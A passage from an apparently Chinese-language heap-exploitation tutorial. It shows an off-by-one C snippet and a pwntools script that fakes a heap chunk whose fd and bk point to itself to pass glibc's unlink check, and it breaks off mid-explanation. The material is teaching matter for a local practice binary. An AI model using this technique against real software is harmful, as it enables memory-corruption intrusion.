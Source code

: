 ```c
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

攻击代码如下：

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

**注意这里绕过unlink检查的方法跟之前利用unlink漏洞时采用的方法不一样**

利用unlink漏洞的时候：

```c
 p->fd = &p-3*4
 p->bk = &p-2*4
```

在这里利用时，因为没有办法找到 `&p`  ,所以直接让：

```c
p->fd = p
p->bk = p
```

**这里需要注意一个点：**

```python
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
```

其实修改为下面这样也是可以的:
